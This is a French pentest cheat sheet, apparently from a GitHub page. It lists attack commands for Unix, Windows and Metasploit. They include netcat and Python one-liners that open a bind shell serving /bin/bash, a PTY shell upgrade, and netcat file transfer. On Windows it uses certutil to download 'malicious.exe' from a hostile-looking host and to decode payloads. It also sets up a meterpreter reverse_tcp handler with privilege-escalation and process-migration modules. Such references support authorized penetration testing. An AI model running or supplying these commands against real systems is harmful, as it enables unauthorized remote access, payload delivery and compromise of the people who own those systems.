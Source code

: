 <h2>Unix</h2>
Accorder les permissions pour un user specifique</br>
setfacl -m u:username:rwx myfolder</br>
Tunnel ssh dynamique sur le port local 8080:</br>
ssh -ND 8080 root@addressIP</br>
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :
<ul>
  <li>nc -lvp 2222 -e /bin/bash</li>
  <li>python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"</li>
</ul>
On se connecte avec nc -nv 2222 adress port</br>
<h4>Pour avoir un shell pty :</h4>
<ul>
  <li>python -c "import pty; pty.spawn('/bin/bash')"</li>
</ul>
<h4>Pour avoir tab completion tout joli :</h4>
<ul>
  <li>Prendre un shell pty avec la commande plus haut</li>
  <li>CTRL-Z</li>
  <li>stty raw -echo</li>
  <li>fg</li>
</ul>

Envoi fichier avec netcat :</br>
nc -l -p 1234 > out.file</br>
nc -w 3 [destination] 1234 < out.file</br>

<h2>Windows</h2>
systeminfo pour obtenir des renseignements sur le systeme</br>
net users [username] pour obtenir des renseignements sur les utilisateurs</br>
tasklist pour lister les processus</br>
netstat -ano pour les connexions reseau</br>
dir sysprep /s /b pour trouver un fichier dans le repertoire courant et ses sous-dossiers</br>
wmic qfe list pour lister les mises à jour installées</br>
certutil.exe -urlcache -split -f "https://hackers.home/malicious.exe" bad.exe le wget en cmd<br/>
certutil.exe -decode bad.txt bad.exe le base64 decode en cmd</br>

<h3>Powershell</h3>
get-WmiObject -class Win32_Share</br>


<h2>Metasploit</h2>
Handler :</br>
use exploit/multi/handler</br>
set PAYLOAD windows/x64/meterpreter/reverse_tcp</br>
set LHOST 192.168.8.142</br>
set LPORT 8888</br>
set ExitOnSession false</br>
exploit -j -z</br>

use post/multi/recon/local_exploit_suggester</br>

run post/windows/manage/migrate pour changer sur un processus plus fiable</br>